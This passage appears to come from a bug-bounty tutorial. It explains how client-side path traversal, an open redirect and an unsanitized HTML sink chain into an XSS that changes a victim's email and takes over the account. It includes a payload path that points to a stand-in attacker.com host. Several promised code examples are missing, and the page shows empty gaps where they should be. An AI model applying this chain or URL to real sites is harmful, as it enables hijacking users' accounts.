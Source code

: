 What if you can make it fetch a profile you control and inject anything onto the page? Let’s build the full chain.



The victim visits a URL you crafted that points to their dashboard, but with the gadgety payload. Consider the following example:



(This is URL-encoded but decodes to ../util/redirect?url=https://attacker.com/payload.json as the profile path. We encoded it because it’s going into a URL fragment or parameter for the client script to use.)

The client-side code in the dashboard will take that profile value and do the following:



Thanks to the CSPT bug, this becomes a request to /api/util/redirect?url=https://attacker.com/payload.json(the ../ moved it up to the util directory).

The server at /api/util/redirect is the open redirect gadget. It sees a URL parameter and responds with a redirect to https://attacker.com/payload.json.

The victim’s browser follows the redirect (because fetch will follow it by default). Now the browser is requesting https://attacker.com/payload.json

But (and this is crucial) it thinks this is still an example.com context fetch, so it will allow the response through because it was a same-origin call initially. Our server serves a JSON script that could look like the following:



This JSON is the malicious payload. We also found another gadget: the profile update via GET (POST-to-GET flaw).

You know the site has an endpoint /api/account/update?email=<new> (maybe from analyzing network calls or documentation).

You include an <img> tag in the JSON that will trigger that update as soon as it’s inserted into the DOM.

The client-side code receives the JSON from us and proceeds to render the profile. Maybe it does something naive like the following:



It just took our name field and inserted it as HTML without sanitization. This is a common mistake. As a result, the <img onerror> from our JSON is now part of the DOM of example.com. The image src is broken (x), so it triggers the onerror event, which executes the JavaScript.



Because the user is logged in, this request goes through and updates their email to our address.

Now we own the user’s account (they can initiate a password reset to their own email). All the user did was click a link to their dashboard, but behind the scenes, the gadgets worked together to perform the malicious actions.

We started with a simple open redirect and finished with a full ATO of the user—it’s definitely a P1 or P2 bug now.



Conclusion: Gadgets rule them all
Chaining gadgets is where hacking becomes an art. Hacking is not only about finding bugs and reporting them; it’s about being creative enough to chain little quirks to increase their impact. Finding these kinds of bugs makes it difficult to get a duplicate, but you still need to have each piece of the puzzle.

In particular, noting gadgets is a useful mindset to adopt when facing hardened targets.

I hope that now, you’ve learned patience. Go find more bugs and keep those open redirects instead of reporting them as P4 bugs 😉
